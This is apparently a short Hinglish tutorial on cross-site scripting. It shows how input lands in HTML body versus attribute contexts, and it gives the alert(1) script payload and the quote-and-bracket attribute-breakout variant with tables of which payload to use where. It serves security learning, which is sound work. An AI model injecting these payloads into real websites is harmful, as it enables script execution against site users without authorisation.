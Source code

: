 # Simple Logic

| Part          | Kaam                                                             |
| ------------- | ---------------------------------------------------------------- |
| `"`           | Attribute (jaise alt, title, etc.) band karne ke liye            |
| `>`           | Tag close karne ke liye (jaise `<img>`)                          |
| Baaki payload | Apna code inject karne ke liye (jaise `<script>`, `<svg>`, etc.) |

---

### ✅ 1. Jab HTML aisa ho:

```<div>YAHAN_INPUT_AAYEGA</div>```

Toh tu seedha yeh de sakta hai:

```<script>alert(1)</script>```

Final HTML:

```<div><script>alert(1)</script></div>```

### ➡️ Kaam karega! Kyun?
Kyunkay tu HTML body mein ho, koi attribute nahi hai, toh <script> direct inject ho jaata hai.

---

### ❌ 2. Jab HTML aisa ho:

```<img src="x" alt="YAHAN_INPUT_AAYEGA">```

Toh ab agar tu sirf script tag de de, toh wo attribute ke andar hi reh jaayega — browser ignore kar dega.

---

### ✅ Toh ab tu kya karega?
Tu yeh dega:

```"><script>alert(1)</script>```
Toh HTML banega:

```<img src="x" alt="">```
```<script>alert(1)</script>```

- ➡️ Ab attribute close ho gaya
- ➡️ <img> tag band ho gaya
- ➡️ Tera <script> browser ne run kar diya

---

### Final Formula

| Situation                                                | Kya Inject Karna Hai          |
| -------------------------------------------------------- | ----------------------------- |
| Input directly tag ke andar ho (like `<div>INPUT</div>`) | `<script>alert(1)</script>`   |
| Input attribute ke andar ho (like `alt="INPUT"`)         | `"><script>alert(1)</script>` |

---

### Final One-Line Rule:

"Agar tera input HTML attribute ke andar ja raha hai, toh XSS karne ke liye tu pehle " aur > de kar us attribute aur tag ko close karega — tabhi tera payload browser ko samajh aayega."